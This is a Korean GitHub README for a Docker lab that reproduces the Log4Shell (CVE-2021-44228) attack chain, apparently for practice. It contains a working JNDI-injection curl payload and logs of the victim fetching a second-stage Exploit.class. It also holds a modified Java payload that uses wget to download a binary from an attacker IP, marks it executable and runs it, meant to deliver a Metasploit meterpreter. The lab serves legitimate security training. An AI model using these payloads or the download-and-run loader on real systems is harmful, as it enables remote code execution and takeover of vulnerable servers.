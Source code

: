 # log4shell-dockerlab

## Credits

이 리포에 있는 자료들은 모두 원작자분들의 리포들을 바탕으로 만들어졌습니다. 저는 그저 원작자분들이 만드신 코드를 깃-클론해 docker-compose 했을 뿐입니다. 

- [LunaSec - log4shell 0-day](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [@christophetd - log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
- [@mbechler - marshalsec](https://github.com/mbechler/marshalsec)
- [@tangxiaofen7 - Exploit.java](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

## 리포 설명 
이 리포는 CVE-2021-44228, Log4Shell 취약점 공격/방어를 연습하기 위한 리포입니다. 이 리포의 docker-compose 세팅은 공격자 LDAP 서버와 피해자 웹 서버를 만들어줍니다.  

## 구성 

**피해자 웹 서버 - log4shell-vulnerable-app:** log4j 라이브러리를 사용하는 웹서버. Log4shell 의 첫번째 페이로드에 취약한 서버입니다. 

**공격자 LDAP 서버 - marshalsec:** 피해자 서버가 1차 log4shell 페이로드를 통해 JNDI 요청을 할때, 이에 응답하는 LDAP 서버. 피해자 웹 서버를 공격자 웹 서버로 리다이렉트 시킵니다. 

**공격자 웹 서버:** `python3 -m http.server` 로 가동되는 서버이며, 두번째 log4shell 페이로드인 `Exploit.class` 파일을 호스팅합니다.  

## 사용법

피해자 웹 서버와 공격자 웹 서버를 시작합니다.
```
docker-compose up --build 
```

2번째 페이로드를 호스팅하는 공격자 웹 서버를 시작합니다. 이때 8888 포트는 하드코딩 되어있기 때문에 바꾸면 안됩니다. 이를 바꾸려면 `./marshalsec/Dockerfile` 파일 내용을 바꿔줍니다. 
```
cd ./attacker-webserver
python3 -m http.server 8888
```

PoC 공격
```
// Attack with log4shell payload 
└─# curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'    

Hello, world!

// Docker-compose's LDAP server replying to JNDI & victim web server downloading Exploit.class from the attacker web server 
log4shell-dockerlab-targetweb-1  |
log4shell-dockerlab-jndi-1       | Send LDAP reference result for Exploit redirecting to http://172.17.0.1:8888/Exploit.class
log4shell-dockerlab-targetweb-1  | 2021-12-12 05:01:44,345 http-nio-8080-exec-7 WARN Error looking up JNDI resource [ldap://192.168.40.128:1389/Exploit]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]; remaining name 'Exploit'
log4shell-dockerlab-targetweb-1  |      at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)

// Attacker's web server sending second stage payload to the victim web server. This will get executed.
└─# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.0.3 - - [12/Dec/2021 00:01:44] "GET /Exploit.class HTTP/1.1" 200 -
```

PoC 공격 후 결과 확인 
```
// Check docker ps and find out container ID of the "targetweb"
└─# docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED             STATUS          PORTS                                       NAMES
1131d694c91a   log4shell-dockerlab_jndi        "/usr/local/bin/mvn-…"   51 minutes ago      Up 51 minutes   0.0.0.0:1389->1389/tcp, :::1389->1389/tcp   log4shell-dockerlab-jndi-1
a2217b3781ad   log4shell-dockerlab_targetweb   "java -jar /app/spri…" 


// Check /tmp and validate the POC have worked 
└─# docker exec a2217b3781ad ls /tmp
hsperfdata_root
log4shell-pwned
```

## 사용법 - 두 번째 페이로드 수정 
PoC로 사용되는 `Exploit.java` 대신, 다른 페이로드를 사용하게끔 수정할 수 있습니다. 

JDK가 설치되어 있지 않다면 설치해줍니다. 
```
apt install -y default-jdk 
```

두 번째 페이로드를 수정합니다. 예를 들어, 메타스플로잇의 `multi/script/web_delivery` 등을 사용할 수 있습니다. 
```
// Modified PoC to ship meterpreter instead of the original echo pwned > /tmp/log4shell-pwned payload. 

public class Rev {
    public Rev() {}
    static {
        try {
            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe","/c", "calc.exe"}
                    : new String[]{"sh","-c", "wget -qO PqhJT1H2 --no-check-certificate http://192.168.40.128:7777/mhjfufvGzrRws; chmod +x PqhJT1H2; ./PqhJT1H2& disown"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Rev e = new Rev();
    }
} 
```

두 번째 페이로드를 수정한 뒤, 컴파일합니다. `log4shell-vulnerable-app` 이 JDK 8 기반으로 만들어졌기 때문에 꼭 JDK 8에 맞춰서 컴파일 해야합니다. 
```
// Compile with JDK 8
javac --release 8 <your-payload>.java 

// Sanity check and make sure it's version 52.0 (jdk 8)
└─# file Rev.class
Rev.class: compiled Java class data, version 52.0 (Java 1.8)
```

두 번째 페이로드를 호스팅 한 뒤, 다시 공격합니다. 
```
python3 -m http.server 8888 
curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'
ex) curl 192.168.40.128:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.40.128:1389/Exploit}'  
```

## 레퍼런스  
https://www.lunasec.io/docs/blog/log4j-zero-day/

http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228

https://github.com/christophetd/log4shell-vulnerable-app

https://github.com/mbechler/marshalsec

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
